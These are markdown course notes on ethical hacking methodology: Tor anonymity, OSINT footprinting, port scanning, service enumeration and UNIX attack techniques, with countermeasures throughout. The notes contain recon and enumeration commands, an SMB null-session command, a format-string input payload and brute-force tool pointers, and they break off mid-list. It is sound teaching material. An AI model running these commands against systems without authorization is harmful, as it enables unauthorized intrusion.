


# Ethical Hacking

[[_TOC_]]

## Disclaimer

- Book: ([Hacking exposed 7](https://aggarwalvipul.files.wordpress.com/2016/01/hacking_exposed_7_network_security_secrets_and_solution.pdf))
- Some tools defined here are old and deprecated, i think that this course focuses on the methodology; learn the high point of view and the different phases, depending on when you read this summary those phases should be evergreen
- **IMPORTANT**: to learn doing those things (really) just watch people doing this and practice; there are a ton of youtubers doing videos on hack the box machines etc
- [Exams folder](./res/exams/)

## Theory

### IAAAS (It's all about anonymity, stupid)
  
- Tor: The Onion Router

  

  

  

  - Nodes will only know the previous and next hop so anonymity is preserved
  - If the adversary is very powerful (like an ISP) it can start correlating connections identifying who is talking to who (based on the timing) but is very hard
  - If someone is controlling a lot of nodes then he can start doing correlations; if an association controls two nodes (enter and exit) that are used by a user to connect to a resource the user can be de-anonymized
  - Through javascript and more the anonymity could be compromised so there are several ways to block those scripts (`ublock, noscript...`)
  - You must not send UDP and ICMP packets over Tor because they are not supported
- `tor-resolve`: instead of `host` to resolve IP addresses
  - `tor-resolve www.example.com`
- `proxychains`: force connection through Tor
  - `Nmap`: scan targets
  - Example: `proxychains nmap -sT -PN -n -sV -p 21,22,53,80,110,139,143,443 10.10.10.100`
    - `-sT`: full connect, rather than a SYN scan
    - `-PN`: skip host discovery since the host is online
    - `-n`: no Domain Name Server (DNS) requests are performed outside of the Tor network
    - `-sV`: service and version detection on each open port
    - `-p`: set ports
- `socat` (like `nc` but more stable)
  - The following `socat` command sets up a `socat` proxy listening on your local system (`127.0.0.1` port `8080`) and forwards all TCP requests to `10.10.10.100` port `80` via the SOCKS Tor proxy listening on `127.0.0.1` port `9050`: `socat TCP4-LISTEN:8080,fork SOCKS4a:127.0.0.1:10.10.10.100:80,socksport=9050 &`

#### Practical

- Configuring tor and proxychains
  - Tools
  	- **Proxychains**: https://github.com/haad/proxychains
  	- **Tor**: https://www.torproject.org/
  1. Install proxychains and tor
  2. `vim /etc/proxychains.conf`
  	1. Enable dynamic chain and disable strict chain
  	2. Add `socks5 127.0.0.1 9050` and `socks4 127.0.0.1 9050`
  3. Start tor service and check if it is running
  4. Final check: `proxychains curl ip.me` then `curl ip.me`, if ips are different then it works

### Footprinting: profiling

- Disclaimer: no messages/packets are sent to the organization attacked
- General points
  1. Determine the scope of your activity
  2. Get proper authorization (needs a lot of time, very hard and important, coop with lawyers, you must have your back covered)
  3. Publicly available information (OSINT)
     - Resources
       - [0xsp](https://0xsp.com/), search for `OSINT`
       - [OSINT framework](https://osintframework.com/)
       - [FOCA](https://github.com/ElevenPaths/FOCA)
       - Breached credentials: [Breach-parse](https://github.com/hmaverickadams/breach-parse)
     - Search for 
       - Domain names
       - Networks and subnets
       - IP addresses and devices
       - Services
       - CPU architecture
       - Access control
       - IDS
       - Subdomains
         - Examples
           - http://www
           - https://www
           - www1
           - www2
           - web
           - web1
           - test
           - test1
           - ...
         - Tools/websites
           1. **Sublist3r**: https://github.com/aboul3la/Sublist3r
              - Example: `Sublist3r -d tesla.com`
           2. **crt.sh**: https://crt.sh/
           3. Take a list of domains and probe for working http and https servers
           	  - **httprobe**: https://github.com/tomnomnom/httprobe
      	   4. **Asset finder**: https://github.com/tomnomnom/assetfinder
         	    - Asset finder + httprobe: `assetfinder <domain> | httprobe` 
       - Phone numbers
       - Auth mechanisms
       - VPN
         - Search for VPN connection how to, here you could find interesting information
       - Company web pages
         - HTML comment tags
         - Tools/websites
           - **Gowitness** (screenshot webpages): https://github.com/sensepost/gowitness
             - Examples
               - Screenshot a single website: `gowitness single --url=https://www.google.com/`
                 - This should result in a file being created called: `https-www.google.com.png`
               - Screenshot a cidr: `gowitness scan --cidr 192.168.0.0/24 --threads 20`
                 - This should result in many `.png` images in the current directory when complete
                 - This can would also use 20 threads and not the default of 4
               - Generate a report: `gowitness report generate`
                 - This should result in an `report.html` file with a screenshot report 
               - Generate a report: `gowitness report generate --sort-perception`
                 - This should result in an `report.html` file with a screenshot report where screenshots are sorted using perception hashing
               - List the entries in the `gowitness.db` file: `gowitness report list`  
           - Wayback machine: https://web.archive.org/
       - Related organizations: references or links to other organizations that are somehow related to the target organization
         - Social engineering
         - Partners might be not security-minded
       - Location details
         - Google earth
         - Google maps
         - Dumpster diving
       - Employee information
         - Usernames
           - Search engines
             - https://instantusername.com
             - https://usersearch.org/
         - Phone numbers (services online, like "Pagine gialle")
         - Email addresses
         - In general social medias are a good way to retrieve information
         - Ex-employees
         - Employee's home computers 
       - Current events
         - Mergers, acquisitions, scandals, layoffs, rapid hiring, reorganizations, outsourcing, extensive use of temporary contractors: low or disabled security, bad morale
       - Privacy and security polices, and technical details indicating type of security mechanism in place
       - Archived information
         - Use a directory buster software
         - archive.org
         - Cached results at Google
       - Search engines and data relationships
         - [Google hacking database](https://www.exploit-db.com/google-hacking-database)
         - Google dorks
           - https://github.com/BullsEye0/google_dork_list
           - https://github.com/BullsEye0/dorks-eye
           - https://github.com/opsdisk/pagodo
           - https://github.com/IvanGlinkin/Fast-Google-Dorks-Scan
           - https://github.com/ZephrFish/GoogD0rker
           - Tutorial: https://ahrefs.com/blog/google-advanced-search-operators/
         - shodan.io
         - ...
       - Web technologies
         - Identify what technologies a webpage is running
           1. **Builtwith**: https://builtwith.com/
           2. Firefox extension **Wappalyzer**: https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/
           3. **WhatWeb**: https://github.com/urbanadventurer/WhatWeb
     - General information gathering tools
       1. **theHarvester**: https://github.com/laramies/theHarvester
          - Example: `theharvester -d tesla.com -l google.com`
          	- `-d` is for domain
          	- `google` is the engine where you want to search
       2. **OWASP Amass**: https://github.com/OWASP/Amass
          - Tutorial: https://securitytrails.com/blog/owasp-amass 
          - User guide: https://github.com/OWASP/Amass/blob/master/doc/user_guide.md
  4. WHOIS and DNS enumeration
     - Who is assigning IP addresses etc?
       - Internet Corporation for Assigned Names and Numbers (ICANN, IANA)
         - Non profit organization
         - Assigns
           - Internet domain names
           - IP address numbers
           - Protocol parameters and port numbers
         - Coordinates DNS
         - Hierarchical structure
           - Regional Internet Registries (RIRs) manage, distribute, and register public internet number resources within their respective regions
             - APNIC (apnic.net) Asia-Pacific region
             - ARIN (arin.net) North and South America, Sub-Sahara Africa regions
             - LACNIC (lacnic.net) Portions of Latin America and the Caribbean
             - RIPE (ripe.net) Europe, parts of Asia, Africa north of the equator, and the Middle East regions
             - AfriNIC (afrinic.net, currently in observer status) Eventually both regions of Africa currently handled by ARIN and RIPE
     - How to find information about domains?
       - Management of domains is centralized (see above), actual data is spread across the globe in numerous WHOIS servers
       - General lookup process (ex: keyhole.com): the authoritative Registry for a given TLD, ".com" in this case, contains information about which Registrar the target entity registered its domain with. Then you query the appropriate Registrar to find the Registrant details for the particular domain name
         - Practical how to
           - Web whois (whois.iana.org and similar)
           - CLI `whois`
           - [OSINT framework](https://osintframework.com/) Domain name -> Whois records
         - Loot
           - Physical addresses
           - Phone numbers
           - Names
           - E-mail addresses
           - DNS server names
           - IPs
           - Old administrators information (social engineering)
           - ...
     - To limit those problems there are several domain services that with an additional fee anonymize information about your company domain (simply information is not shown)
  5. DNS interrogation
     - Societies may have their own DNS; if those are publicly available then the entire blueprint of the internal network of the society is available to attackers
     - Zone transfer: allows a secondary master server to update its zone database from the primary master
       - Many DNS servers, however, are misconfigured and provide a copy of the zone to anyone who asks; this leads to the previous problem
       - Dump DNS server content and acquire information
         - [dnsrecon](https://tools.kali.org/information-gathering/dnsrecon)
         - `nslookup`

            

         - `dig`
         - `host`
         - [0xsp - DNS Enumeration](https://0xsp.com/offensive/offensive-cheatsheet)
         - https://github.com/mschwager/fierce
  6. Network reconnaissance 
     - Tools
       - `traceroute`
       - The one cited above
     - In general use techniques above defined

### Scanning

- Disclaimer: keep anonymity and try to send the minimum packets to the target
- Best resources
  - [RustScan](https://github.com/RustScan/RustScan)
  - [Nmap cheatsheet](https://github.com/jasonniebauer/Nmap-Cheatsheet)
  - [0xsp - Port scanning](https://0xsp.com/offensive/offensive-cheatsheet)
- General points
  1. Is the system alive?
     - Network ping sweeps
       - Types
          - ARP host discovery (same subnet): an ARP scan sends an ARP request out for every host on its subnet, and the host is considered "alive" if an ARP reply is received (ARP is used to couple IP address and MAC of every machine)
            - `Nmap` ARP scan: `-PR -sn`
            - `arp-scan`
          - ICMP host discovery (remote host): simply using `ping`
            - `Nmap` can do this too
            - Slower than ARP host discovery
          - TCP/UDP host discovery (when ICMP is not permitted)
       - Countermeasures
         - Detection
           - IDS: `snort`
           - Commercial firewall: detect TCP, UDP, ICMP ping sweeps
           - Host based: `scanlogd`, `courtney`, `ippl`, `protolog`
           - Not just tools, you need also good analysts
         - Prevention
           - Limit some sort of protocol with access control list (ACL)
           - Allow only ISP's specific IP addresses
       - How to
         1. **netdiscover**: https://github.com/alexxy/netdiscover or https://github.com/netdiscover-scanner/netdiscover
            - Example: `netdiscover -r <IP range>`
         2. **Nmap**: https://github.com/nmap/nmap
            - Example: `nmap -sn <IP range>`   
  2. Which services are running?
     - Port scanning: intrusive
       - What does it do?
         - Identify TCP/UDP services
         - Identify OS
         - Identify applications and their versions
       - Scan types: based on anomalous TCP packets
         - Based on TCP header flags: URG, ACK, PSH, RST, SYN, FIN
         - IMPORTANT: could make the system attacked go down (dos)
         - Types
           - TCP connect scan: connects to the target port and completes a full three-way handshake (SYN, SYN/ACK, ACK)
           - TCP SYN scan: is called half-open scanning because a full TCP connection is not made, instead only a SYN packet is sent to the target port; if a SYN/ACK is received from the target port, we can deduce that it is in the LISTENING state, if an RST/ACK is received, it usually indicates that the port is not listening
           - TCP FIN scan: sends a FIN packet to the target port, the target system should send back an RST for all closed ports; this technique usually only works on UNIX-based TCP/IP stacks
           - TCP Xmas Tree scan: sends a FIN, URG, and PUSH packet to the target port; the target system should send back an RST for all closed ports
           - TCP Null scan: turns off all flags, the target system should send back an RST for all closed ports
           - TCP ACK scan: used to map out firewall rulesets, it can help determine if the firewall is a simple packet filter allowing only established connections (connections with the ACK bit set) or a stateful firewall performing advance packet filtering
           - TCP Windows scan: may detect open as well as filtered/non filtered ports on some systems due to an anomaly in the way the TCP windows size is reported
           - TCP RPC scan: specific to UNIX systems and is used to detect and identify Remote Procedure Call (RPC) ports and their associated program and version number
           - UDP scan: sends a UDP packet to the target port; if the target port responds with an "ICMP port unreachable" message, the port is closed, conversely, if you don’t receive an "ICMP port unreachable" message, you can deduce the port is open
             - UDP is connectionless so the accuracy of this technique is highly dependent on the network/host
             - Very slow process if you are trying to scan a device that employs heavy packet filtering
             - If you plan on doing UDP scans over the Internet, be prepared for unreliable results
       - Countermeasures
         - Detection
           - `snort`
             - Port scan are common today, set a threshold of alerts
           - `scanlogd`: detect and log
           - Firewalls
         - Prevention
           - Disable unnecessary services/ports (`/etc/inetd.conf`)
  3. What operating system?
     - Techniques
       - Banner grabbing: service tells you what operating system is running
       - Scanning ports: some services are host-specific
         - Windows: `135`, `139` (NetBIOS), `445` (SMB, Samba) and `3389` for remote desktop protocol (RDP)
         - UNIX: `111` (RPC port mapper), `512-514` (rlogin), `2049` (Network File System, NFS), `3277x` (RPC, remote procedure call)
       - Stack fingerprinting: recognize OS associated to TCP/IP stack implementation
         - FIN probe: a FIN packet is sent to an open port; the correct behavior is not to respond however, many stack implementations (Windows7/200X/Vista) respond with a FIN/ACK
         - Bogus flag probe: an undefined TCP flag is set in the TCP header of a SYN packet; some operating systems, such as Linux, respond with the flag set in their response packet
         - Initial Sequence Number (ISN) sampling: find a pattern in the initial sequence chosen by the TCP implementation when responding to a connection request
         - Don’t fragment bit monitoring: some operating systems set the "Don’t fragment bit" to enhance performance; this bit can be monitored to determine what types of operating systems exhibit this behavior
         - TCP initial window size: initial window size on returned packets is tracked, for some stack implementations, this size is unique and can greatly add to the accuracy of the fingerprint mechanism
         - ACK value IP stacks differ in the sequence value they use for the ACK field, so some implementations return the sequence number you sent, and others return a sequence number+1
         - ICMP error message quenching: operating systems may limit the rate at which error messages are sent; by sending UDP packets to some random high-numbered port, you can count the number of unreachable messages received within a given amount of time. This type of probe is also helpful in determining if UDP ports are open
         - ICMP message quoting: operating systems differ in the amount of information that is quoted when ICMP errors are encountered; by examining the quoted message, you maybe able to make some assumptions about the target operating system
         - ICMP error message-echoing integrity: some stack implementations may alter the IP headers when sending back ICMP error messages
         - Type of service (TOS): for "ICMP PORT UNREACHABLE" messages, the TOS is examined; most stack implementations use 0, but this can vary
         - Fragmentation handling: different stacks handle overlapping fragments differently; some stacks overwrite the old data with the new data, and vice versa, when the fragments are reassembled
         - TCP options: the more advanced options provided by latest RFC tend to be implemented in the most current stack implementations
       - Passive stack fingerprinting: listening to the traffic we could understand what OS is running on a machine
         - Stealth
         - Attacker must be in a logical central location of the network (for example the best case is having access to a port on a switch who is mirroring traffic)
     - Countermeasures: same as before and active defense
  4. Store and analyze scan data
     - Metasploit: vast platform of tools
       - It runs a PostgreSQL server
       - `db_connect` to connect to a database
       - `db_nmap` to call nmap from metasploit (slower)
       - `db_import` to import nmap results into database
       - With scans imported to metasploit we could do a lot of useful queries and our data is well organized
         - `hosts` command lists all hosts in the database, you can select specific columns with the `-c` option
         - `services` command can be used to show all available open ports and services on the identified hosts
         - ...

#### Practical

- Nmap
  - Dummy example: `nmap -T4 -p- -A <target>`
  - I won't give a lot of examples for this tool, go and look at the `man` or here: https://nmap.org/man/it/index.html
  - Great cheatsheets
  	- https://www.tutorialspoint.com/nmap-cheat-sheet
  	- https://github.com/jasonniebauer/nmap-cheatsheet 

### Enumeration

- Introduction
  - Scanning vs enumeration
    - Scanning: looking for ports, services...
    - Enumeration: what are the weaknesses of the discovered services? **More intrusive**
      - As an attacker progresses through later stages of the attack and obtains connectivity to hosts and segments he previously did not have access to, he will often return to this phase to find ways to greatly expand his foothold and work toward specific targets
- Phases
  - Service fingerprinting: get services versions
    - With nmap `-sV` we could perform a service version scan
  - Vulnerability scanners
    - Contain database of known vulnerabilities and check those vulnerabilities against the target
    - Tools
      - [Nessus](https://www.tenable.com/products/nessus)
        - GUI
        - Also ported to iPhone and Android
        - Users can develop custom plugins using the interpreted Nessus Attack Scripting Language (NASL) 
      - Nmap
        - Nmap Scripting Engine (NSE)
          - Lua
          - Send, receive, and report on arbitrary data
          - Not intended to compete with Nessus, "typically when a scalpel is preferred to a battering ram"
          - How to: invoked by adding either `--script $SCRIPTNAME` to run a specific script or `-sC` to run a set of default scripts
    - Countermeasures
      - Audit yourself and patch your vulnerabilities
      - IDS/IPS with firewall rules
      - Honeypots
  - Basic banner grabbing: analyze banners of request's responses, here information could be discovered (versions and services names)
    - Tool: `telnet` or (better) netcat (`nc`)
      - In netcat we could redirect a file containing a request header to `stdin` so that the request is forwarded to the target host 
    - Countermeasures
      - Remove unnecessary services
      - Audit yourself
      - ACL (access control list): nodes are private, internal network is not reachable from the outside, just some specific nodes can access others
  - Enumerating common network services
    - FTP
      - Port `21`, TCP
      - Data is sent in clear
      - Anonymous access
      - Useful to upload files to the target host to execute in a later stage
      - Countermeasures
        - Use SFTP (over SSH)
        - Use FTPS (over SSL)
        - Disallow anonymous file upload
    - Telnet
      - Port `23`, TCP
      - Data is sent in clear
      - Has banner that often contains the host's operating system and version; if not could be "fingerprinted"
      - Used to work with old network devices
      - Account enumeration: attempting to log in with a particular username and observing the error messages returned by the server 
      - Countermeasures
        - Use SSH
        - ACL (access control list): nodes are private, internal network is not reachable from the outside, just some specific nodes can access others
        - Use a VPN
        - Modify banner info
        - Require users to reconnect between failed login attempts
    - SMTP
      - Port `25`, TCP
      - `VRFY` command: confirms names of valid users
      - `EXPN` command: given an alias returns the real delivery address
      - [Automation script](http://pentestmonkey.net/tools/user-enumeration/smtp-user-enum)
      - Countermeasures
        - Disable above cited commands
        - Another time ACL
    - DNS
      - Port `53`, TCP/UDP (usually UDP)
      - Zone transfers: dump the entire content of a given domain's zone file 
        - Command: `dig @$DNSSERVER $DOMAIN`
      - Cache snooping: attackers can abuse this functionality by requesting the DNS server to query only its cache and, by doing so, deduce if the DNS server's clients have or have not visited a particular site; in the case that the DNS server hasn't processed a request for a particular host, the server responds with the "Answer" flag set to `0` else `1`
        - Command: `dig @$DNSSERVER $DOMAIN +norecurse`
      - Automated enumeration
        - [How to](https://securitytrails.com/blog/dns-enumeration)
        - Tools
          - [dnsenum](https://tools.kali.org/information-gathering/dnsenum)
          - [fierce](https://github.com/mschwager/fierce)
          - [dnsrecon](https://github.com/darkoperator/dnsrecon)
          - centralops.net
          - www.robtex.com
      - Countermeasures
        - Disable the service
        - Blocking DNS zone transfers
        - Disabling DNS cache snooping
        - Use separate internal and external DNS servers (do not expose internal targets)
    - TFTP
      - Port `69`, TCP/UDP
      - Data is sent in clear
      - No authentication
      - Anyone can grab any file
      - Used in routers and VoIP telephones to update firmware and look for config files
      - Countermeasures
        - Disable this
        - Another time ACL
    - Finger (UNIX)
      - Port `79`, TCP/UDP
      - Shows users on local or remote systems (useful for social engineering), if they are on and if they are active or not
      - Countermeasure: block remote access or don't use this service
    - HTTP
      - Port `80`, TCP
      - Get banner info manually
        - HTTP: `nc -v $DOMAIN $WEBSERVERPORT` and then write `HEAD / HTTP/1.1`
        - HTTPS: `openssl s_client -quiet -connect $DOMAIN:$WEBSERVERPORT` and then write `HEAD / HTTP/1.1`
      - Automation
        - [List of web scanning softwares](https://geekflare.com/open-source-web-security-scanner/)
      - Countermeasures
        - Change the banner of web server to make it less "fingerprintable" 
    - Microsoft RPC endpoint mapper (MSRPC)
      - Port `135`, TCP
      - Sending a request to this port will spawn another process to serve requests by the user
      - Querying this service can yield information about applications and services available on the target machine
      - How to
        - https://nmap.org/nsedoc/scripts/msrpc-enum.html
        - https://github.com/SecureAuthCorp/impacket
      - Countermeasures
        - Block port `135` using firewall (not always possible)
        - Use VPN
        - Use services based on HTTPS
    - NetBIOS (DNS-like, Windows)
      - Port `137`, UDP
      - Should be enabled as default
      - How to
        - http://nmbscan.g76r.eu/
        - https://github.com/SecureAuthCorp/impacket
      - Through windows
        - `net view /domain` and `net view /domain:$DOMAINNAME` list domain names
        - There are a lot of other tools but we'll stick with linux ones (above)
      - Countermeasures
        - Block port `137` using firewall (will make some application not work)
        - Disable `Alerter` and `Messenger` to prevent user data from appearing in netbios
    - NetBIOS/SMB session
      - Port `139/445`, TCP
      - Windows Server Message Block (SMB) protocol hands out information freely
        - Useful because contains shared folders, printers, registry information (maybe), security identifiers (SID)...
      - Null sessions: anonymous connections
        - In windows: `net use \\192.168.202.33\IPC$ "" /u:""` and then `net view \\192.168.202.33`
          - Null sessions are golden
        - In linux
          - [smbclient](https://www.computerhope.com/unix/smbclien.htm)
          - [enum4linux](https://tools.kali.org/information-gathering/enum4linux)
          - [Tutorial](https://null-byte.wonderhowto.com/how-to/enumerate-netbios-shares-with-nbtscan-nmap-scripting-engine-0193957/)
        - Misc: https://home.ubalt.edu/abento/453/enumeration/enumerationtools.html
      - Username enumeration
        - Using SID, last numbers are identifying user privileges
          - Admin: `500`
          - Guest: `501`
          - Accounts: `1000, 1001, 1002...`
        - SID example: `S-1-5-21-1180699209-877415012-3182924384-1004`
        - So we just check for all sids terminating with `500, 501, 1000...`, the first part remains the same inside a same machine
      - Countermeasures
        - Close ports to the outside
        - Add `RestrictAnonymous` registry key to `1` to limit enumeration over null session
        - Audit yourself
        - Ensure the registry is not accessible through this service
    - SNMP: simple network management protocol; used to remotely manage routers and network devices
      - Port `161`, UDP
      - Default passwords are widely used, they are called community string; they must be sent in every command supplied
        - Read-Only: password to read
        - Read-Write: password to write
        - Trap
      - Extension of SNMP: MIB
        - Vendors add data to MIB (Microsoft stores windows user account names)
      - Tool (linux): [snmpcheck](https://tools.kali.org/information-gathering/snmp-check)
      - Countermeasures
        - Remove unneeded agents
        - Change community strings to non default values
        - Use ACLs
        - Update service frequently
    - BGP: border gateway protocol; routing protocol used on the internet
      - Port `179`, TCP
      - Is used AS-number (Autonomous system number), not IP addresses; those packets contains our normal packets
      - Can be used to enumerate all networks of a particular corporation
    - Windows active directory LDAP
      - Port `389, 3268`, TCP/UDP
      - Contains windows user accounts, groups and general information about domain controllers
      - How to: [Medium article](https://medium.com/@Shorty420/enumerating-ad-98e0821c4c78)
      - Countermeasures
        - Close ports to the outside
        - Update, old domain controllers are bad
    - UNIX RPC (`rpcbind`)
      - Port `111, 32771`, TCP/UDP
      - `rpcinfo, rwho, rusers` to gain information
    - SQL Resolution Service (windows)
      - Port `1434`, UDP
    - Oracle TNS
      - Port `1521/2483`, TCP
    - NFS
      - Port `2049`, TCP/UDP
      - `showmount`: gain info
    - IPSec/IKE: something concerned with VPNs
      - Port `500`, UDP
      - https://github.com/royhills/ike-scan

#### Practical

- Web ports: `80, 8080, 443`
  - Web scanner (**Nikto**): https://github.com/sullo/nikto
  	- Example: `nikto -h <target-url>`  
  - Directory scanner (**Gobuster**): https://github.com/OJ/gobuster
  	- Example: `gobuster dir -u <target-url> -w <wordlist-path>`
- SMB
  - What is `SMB`: file sharing on port `139`
    1. Query NetBIOS names and map them to IP addresses in a network, helpful for enumerating domain/workstation and MAC address
    	- Tools
    		1. **nmblookup**, integrated in Samba: https://github.com/samba-team/samba
    			- Example: `nmblookup -A <target-ip>` 
    			- NetBIOS suffixes (useful for identification)
    				- Unique names
    					- `00`: Workstation Service (workstation name) 
    					- `03`: Windows Messenger service
    					- `06`: Remote Access Service 
    					- `20`: File Service (also called Host Record) 
    					- `21`: Remote Access Service client 
    					- `1B`: Domain Master Browser - Primary Domain Controller for a domain
    					- `1D`: Master Browser
    			  - Group names
    				 - `00`: Workstation Service (workgroup/domain name) 
    				 - `1C`: Domain Controllers for a domain 
    				 - `1E`: Browser Service Elections 
    			- Note: works on a single host per scan
    		2. **nbtscan**: http://www.unixwiz.net/tools/nbtscan.html
    			- Example: `nbtscan <taget-subnet>`
    			- Note: works on a subnet
    2. Enumerate samba share drives across an entire domain. List share drives, drive permissions, share contents, upload/download functionality, file name auto-download pattern matching, and even execute remote command
    	- Tool (**SMBMap**): https://github.com/ShawnDEvans/smbmap
    	- Examples
    		- `smbmap -H <target-ip>`: general informations
    		- `smbmap -H <target-ip> -d <target-domain> -u <username> -p <password>`: more informations about given user of the given domain
    3. Connect to the SMB share
    	- Tool (**smbclient**): https://github.com/samba-team/samba 
    		- Explanation: client that can "talk" to an SMB/CIFS server; it is more or less like FTP
    		- Examples
    			- `smbclient -L <target-ip>`: list shares of a given machine
    			- `smbclient //<target-ip>/<target-share>`: connect to a specific share, an FTP-like prompt appears 
    4. Open RPC connection and gather users information
    	- Tool (**rpcclient**): https://github.com/samba-team/samba
    	- Example
    		1. `rpcclient -U "" -N <target-ip>`: connect as anonymous
    		2. `enumdomusers`: enumerate users
    		3. `queryuser <rid>`: get information about user identified by rid
    5. Enumerate known SMB vulnerabilities using Nmap
    	- Command: `nmap --script smb-vuln* -p 139,445 <target-ip>` 
    6. ALL IN ONE {(smbclient, rpclient, net, nmblookup), (1, 3, 4)} and a little more
    	- Tool (**enum4linux**): https://github.com/CiscoCXSecurity/enum4linux or https://github.com/cddmp/enum4linux-ng (ng)
    	- Example: `enum4linux -a <target-ip>`
- Search for vulnerabilities
  1. Look for the technologies and versions of the services running manually or using Nmap
	 - Nmap options
		 - `-sV`: version detection
		 - `-O`: OS fingerprinting 
  2. Look if exploits are available
  	 - Use nmap
  		 - Examples
  			 - `nmap -Pn --script vuln <target-ip>`: use nmap integrated vuln script
  			 - `nmap --script nmap-vulners,vulscan -sV <target-ip>`: use https://github.com/scipag/vulscan and https://github.com/vulnersCom/nmap-vulners (extended vulnerability databases for Nmap)
  	 - Search on Google versions and search for exploits (check also GitHub)
  	 - Check exploits on Rapid7 (https://www.rapid7.com/db/)
  	 - Use **searchsploit** (https://github.com/offensive-security/exploitdb/blob/master/searchsploit, CLI of ExploitDB)
- List of powerful scanners
  - **Masscan**: https://github.com/robertdavidgraham/masscan
  - **Nessus** ($$): https://www.tenable.com/downloads/nessus 
- Domain takeover tool (scan a list of subdomains concurrently and identify ones that are able to be hijacked): https://github.com/haccer/subjack
- Auto enumeration/recon tools
  - https://github.com/thewhiteh4t/FinalRecon
  - https://github.com/Tib3rius/AutoRecon
  - ... (search on google)

### Hacking UNIX

- Highest privilege user: `root`
  - Going to normal user to `root`: privilege escalation
- Steps of penetration testing
  1. Footprinting: gather information without connecting to the target
     - Tools: `whois, nslookup, dig, foca, maltego...` 
  2. Scanning: identify entry points and exposed systems
     - Tools: `nmap, netcat, tcpdump, nslookup, nessus...` 
  3. Enumeration: probe to detect known weaknesses
     - Tools: `dnsenum, rpcinfo, smbclient...`
  4. Vulnerability mapping: map attributes to potential security holes
     - Sources: `bugtraq, OSVDB, CVE, ExploitDB...`
     - Tools: `Nessus, Metasploit...`
- Attack steps
  1. Gain remote access to the network
     - Methods 
       - Exploiting a listening service
         - Services: `telnet, ftp, rlogin, ssh, dns (BIND)...`
         - How to
           - Brute force: password guessing
             - Services to attack: `telnet, ftp, ssh...`
             - Check for weak passwords
             - Use the user list gained during enumeration
             - Attacking tools: `hydra, medusa, metasploit...`
               - Hydra example

                  

               - Metasploit
                 - `search $SERVICETOATTACK`
                 - Usually `auxiliary/scanner/$SERVICE/$SERVICE_login` or something like this
               - Other tools: `man`
             - Countermeasures
               - `Cracklib`: enforce passwords comparing selected one with the ones on a wordlist
               - Secure remote password
               - SSH public key authentication
           - Data-driven attack: sending data to a service causing unintended results
             - Buffer overflow: a process tries to put more data into a buffer than was previously allocated
               - Interesting C functions: `strcpy, strcat, sprintf`
               - Exploited modifying the execution of the program executing malicious code
               
                 

                 

                 

                 

                 

                 - Goal: jump the execution to our injected code which is inside the buffer and execute arbitrarly defined code
                 - Note: if you don't know the exact address of the buffer use a NOP sled and "brute force"
               - Countermeasures
                 - Set the stack as non-executable (`NX` bit)
                 - Stach smashing protector (`canary`)
                 - Test and audit programs
                 - `ASLR`: runtime address space randomization
             - Return to libc
               - Uses buffer overflow
               - Overwrite return address and make it point to a standard C function contained in libc and loaded in memory
               - Interesting functions: `exec, printf, open, exit...`
                 - Example: put `/bin/sh` on the stack and then call `exec`; `/bin/sh` will be used as parameter

                   

                 - Not so simple, `plt` and `got` problem etc...
             - Return oriented programming (ROP)
               - Uses buffer overflow
               - Return to existing code that is already in the program's address space, create arbitrary code by chaining short code sequences (gadgets) together
             - Heap overflow: buffer overflow in the heap
             - Format string attacks
               - `printf("%s", buf)`: print buf as a string
               - Sometimes the format string is omitted (`printf(buf)`), so a user could pass a format string as a variable and write/print the content of the stack
               - Works with `fprintf, printf, sprintf...`
               - This works because `printf` takes values from the stack

                 

                 

               - How to use this
                 - `%08x`: prints 8 bytes
                 - `%n`: write an integer in memory
                 - ...
               - Example

                 

                 - Input: `\x10\x01\x48\x08 %x %x %x %x %s`

                   

               - Countermeasures
                 - ASLR
                 - Modern compilers will warn you
                 - Code audits
             - Integer overflow and integer sign attacks
               - An integer value can only handle values up to a maximum size, if you input a larger number the computer consider it as a negative value (restarts from 0)
               - Can trick programs into accepting large amount of data bypassing the data validation, could lead to buffer overflow
               - Example
                 
                 

                 - If i input a very long string the `int16_t` is overflowed then is interpreted as a negative value so the check is passed
                 - In the `strncpy` we interpret the value as an unsigned integer so the buffer is overflown
               - Countermeasures: same as buffer overflow
           - Access points
             - FTP
               - Anonymous access + world-writable directory -> remote file upload
               - Buffer overflow
               - Misconfigurations could lead to path traversal 
               - Countermeasures
                 - Patch
                 - Configure carefully
                 - No anonymous access
             - Sendmail: mail transfer agent
               - Long history of vulnerabilities
               - If misconfigured allows spammers to send junk mails
             - RPC (remote procedure call) services: call procedures to execute on other machines
               - Could be enabled by default
               - Runs as root, so if exploited very juicy
               - Countermeasures
                 - Disable
                 - Firewall
                 - Patch
                 - Use secure RPC
             - NFS (network filesystem): access remote filesystem through the network
               - A lot of buffer overflows
               - If misconfigured could be very bad
               - Countermeasures
